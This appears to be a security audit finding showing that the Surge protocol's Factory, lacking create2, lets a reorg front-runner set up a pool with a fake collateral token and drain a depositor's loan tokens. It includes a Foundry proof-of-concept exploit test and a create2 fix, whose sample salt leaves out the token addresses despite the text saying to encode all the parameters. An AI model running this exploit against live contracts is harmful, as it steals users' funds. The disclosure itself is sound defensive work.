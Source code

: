 zaskoh

high

# Not using create2 in Factory can lead to lost user funds

## Summary
In case of a reorg or a user that queues `deploy - approve - deposit` (where approve and deposit are on an expected address returned from deploy) an attacker can front-run the deploy and change the values for the deployed Pool on that address to drain all deposit tokens without spending any tokens.

## Vulnerability Detail
The protocol want's to deploy on most of the EVM chains, and L2s. On most of them there can be a reorg and this can lead to an attack to drain tokens from a user.

- Bob deployes a Pool via deploySurgePool
- Bob waits for the next block to get the deployed Pool address
- Bob sends an approve for the loanToken and the deposit to the pool
- An reorg for the block where the deploySurgePool happens
- Attacker front-run the deploySurgePool with malicious params and a fake-token he controls as the collateral token
- Bobs deploySurgePool goes through, but it has a new address that was not expected
- The approve and deposit from Bob goes to the pool address the attacker created
- Attacker use `addCollateral` with his fake token and then a `borrow` to get out Bob's loan tokens

On Feb-22-2023 for example polygon had an reorg of 157 blocks, a depth of 1 - 10 are happening on a regular basis. Ethereum has also regular reorgs with a depth of 1 where the attack from above can also happen, especially if Bob uses a script / multicall to send the approve and deposit to happen in the next block. Also on L2s like Optimism can a reorg happen when a fraud block was found.

As the attacker don't need any capital (he just uses a Fake token as the collateral token) to drain all deposited tokens from a victim, an attacker just needs to setup a script to wait for an reorg after an deploy and deposit happens from a user to drain the pool.

## Impact
https://github.com/Surge-fi/surge-protocol-v1/blob/b7cb1dc2a2dcb4bf22c765a4222d7520843187c6/src/Factory.sol#L175-L187

Without using create2 for deploying Pools, a user can't be sure that the expected deployed address will hold, unless he waits enough blocks that no reorg can happen.  
If an attacker is able to front-run a `deploySurgePool` and the followed `deposit` of a Pool-creator, it is possible for him to withdraw all deposited loan tokens from the user without spending any collateral as he just use a useless token as the collateral in the front-running.

## Code Snippet

Add test and run
forge test --match-contract=ReorgTest
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import "../src/Factory.sol";
import "./mocks/ERC20.sol";
import "../src/Pool.sol";

contract ReorgTest is Test {

    Factory factory;    
    address bob = makeAddr("bob");
    address attacker = makeAddr("attacker");

    MockERC20 collateralToken;
    MockERC20 loanToken;
    MockERC20 attackerToken;

    function setUp() public {
        factory = new Factory(address(this), "Reorg");

        collateralToken = new MockERC20(10 ether, 18);
        loanToken = new MockERC20(10 ether, 18);
        attackerToken = new MockERC20(1000 ether, 18);

        deal(bob, 1 ether);
        deal(attacker, 1 ether);

        // bob holds 10 loan tokens
        loanToken.transfer(bob, 10 ether);

        // attacker with no collateral and loan but with 1000 attackerTokens
        attackerToken.transfer(attacker, 1000 ether);
    }    

    function testDeployPool() external {
        
        // attacker starts with 0 loanTokens and bob holds 10 loanTokens
        assertEq(loanToken.balanceOf(bob), 10 ether);
        assertEq(loanToken.balanceOf(attacker), 0);

        // bob wants to deploy the pool with the following entries, but it is front-run / deployed from the attacker on a reorg
        //vm.startPrank(bob, bob);
        //Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        //vm.stopPrank();

        // attacker front-runs / use an reorg to get the next pool address where he knows bob is depositing tokens and adapts the configuration
        vm.startPrank(attacker, attacker);
        Pool pool = factory.deploySurgePool(IERC20(address(attackerToken)), IERC20(address(loanToken)), 1e18, 0.999999e18, 1, 1, 1, 1, 1);
        vm.stopPrank();

        // now the deploySurgePool occourse from bob
        // but the address for pool will be different to what he was expecting before and so the address is useless
        vm.startPrank(bob, bob);
        factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        // bobs approve for his expected pool address happens and he deposits his tokens to it        
        loanToken.approve(address(pool), type(uint).max);
        pool.deposit(10 ether); // bob deposit 10 loanToken
        vm.stopPrank();

        // as the attacker changed the deployment and used his attackerToken as the collateralToken he can now add this token as collateral
        // and with the changed conditions can now borrow >99%
        vm.startPrank(attacker, attacker);
        attackerToken.approve(address(pool), type(uint).max);
        pool.addCollateral(attacker, 1000 ether);
        pool.borrow(9.99999 ether);
        vm.stopPrank();

        // now bob has no loanTokens and attacker has >9.99 loanTokens and bob is left with a pool full of useless attackerTokens
        assertEq(loanToken.balanceOf(bob), 0);
        assertGt(loanToken.balanceOf(attacker), 9.99 ether);
    }
}
```

## Tool used
Manual Review

## Recommendation
Deploy the `Pool` contract via `create2`. The salt should include the `msg.sender`, for example you could abi.encode() all the params + msg.sender to calculate the salt for the pool.

With this implementation, a User can also precalculate the Pool-Address for a deployment and it's not possible for an attacker to front-run a create to block the expected address.

One drawback is, that an address can't deploy another Pool with exactly the same conditions, but this should not be the case anyway.

Example:

```solidity
    function deploySurgePool(
        IERC20 _collateralToken,
        IERC20 _loanToken,
        uint _maxCollateralRatioMantissa,
        uint _surgeMantissa,
        uint _collateralRatioFallDuration,
        uint _collateralRatioRecoveryDuration,
        uint _minRateMantissa,
        uint _surgeRateMantissa,
        uint _maxRateMantissa
    ) external returns (Pool) {
        string memory poolNumberString = toString(pools.length);
        string memory prefix = unpack(POOL_SYMBOL_PREFIX);
        Pool pool = new Pool{salt: getDeploySalt(
            _maxCollateralRatioMantissa, _surgeMantissa, _collateralRatioFallDuration, _collateralRatioRecoveryDuration,
            _minRateMantissa, _surgeRateMantissa, _maxRateMantissa
        )}(
            string(abi.encodePacked(prefix, poolNumberString)),
            string(abi.encodePacked("Surge ", prefix, poolNumberString, " Pool")),
            _collateralToken,
            _loanToken,
            _maxCollateralRatioMantissa,
            _surgeMantissa,
            _collateralRatioFallDuration,
            _collateralRatioRecoveryDuration,
            _minRateMantissa,
            _surgeRateMantissa,
            _maxRateMantissa
        );
        isPool[pool] = true;
        emit PoolDeployed(pools.length, address(pool), address(_collateralToken), address(_loanToken), _maxCollateralRatioMantissa, _surgeMantissa, _collateralRatioFallDuration, _collateralRatioRecoveryDuration, _minRateMantissa, _surgeRateMantissa, _maxRateMantissa);
        pools.push(pool);
        return pool;
    }

    function getDeploySalt(
        uint _maxCollateralRatioMantissa, uint _surgeMantissa, uint _collateralRatioFallDuration,
        uint _collateralRatioRecoveryDuration, uint _minRateMantissa, uint _surgeRateMantissa, uint _maxRateMantissa
    ) internal view returns (bytes32) {
        return keccak256(abi.encode(
            _maxCollateralRatioMantissa, _surgeMantissa, _collateralRatioFallDuration, _collateralRatioRecoveryDuration, _minRateMantissa,
            _surgeRateMantissa, _maxRateMantissa, msg.sender
        ));
    }
```